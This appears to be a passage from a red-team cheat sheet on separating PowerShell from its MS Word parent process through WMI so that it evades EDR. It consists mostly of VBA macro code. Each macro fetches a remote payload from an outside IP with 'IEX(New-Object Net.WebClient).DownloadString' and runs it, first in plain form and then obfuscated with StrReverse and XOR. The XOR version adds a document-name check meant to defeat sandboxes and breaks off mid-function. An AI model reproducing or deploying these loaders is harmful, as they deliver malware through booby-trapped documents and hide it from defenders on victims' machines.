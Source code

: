 

### De-Chain PowerShell via WMI

- [https://blog.f-secure.com/dechaining-macros-and-evading-edr/](https://blog.f-secure.com/dechaining-macros-and-evading-edr/)

De-chain PowerShell process from MS Word parent process via WMI:

{% code title="StageWMI.vba" %}
```vba
Sub Evil
  Dim strArg As String
  strArg = "powershell -exec bypass -nop -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/run.txt')"
  GetObject("winmgmts:").Get("Win32_Process").Create strArg, Null, Null, pid
End Sub
```
{% endcode %}

Obfuscate it using `StrReverse` ([CyberChef](https://gchq.github.io/CyberChef/) or [Code Beautify](https://codebeautify.org/reverse-string)):

{% code title="StrReverseStageWMI.vba" %}
```vba
Function Pony(flowers)
  Pony = StrReverse(flowers)
End Function

Sub Evil
  Dim strArg As String
  strArg = Pony(")'txt.nur/73.31.01.01//:ptth'(gnirtSdaolnwoD.)tneilCbeW.teN tcejbO-weN(XEI c- pon- ssapyb cexe- llehsrewop")
  GetObject(Pony(":stmgmniw")).Get(Pony("ssecorP_23niW")).Create strArg, Null, Null, pid
End Sub
```
{% endcode %}

Obfuscate it using xor encryption and add heuristics detection check based on comparing the `.doc` name with current window name via `ActiveDocument.Name`:

{% code title="XORStageWMI.vba" %}
```vba
Function Pears(beets)
  Pears = Chr(beets Xor Asc("a"))
End Function

Function Strawberries(grapes)
  Strawberries = Left(grapes, 3)
End Function

Function Almonds(jelly)
  Almonds = Right(jelly, Len(jelly) - 3)
End Function

Function Nuts(milk)
  Do
    Oatmilk = Oatmilk + Pears(Strawberries(milk))
    milk = Almonds(milk)
  Loop While Len(milk) > 0
  Nuts = Oatmilk
End Function

Function Evil()
  If ActiveDocument.Name <> Nuts("016022004079005014002") Then
    Exit Function
  End If
  Dim Apples As String
```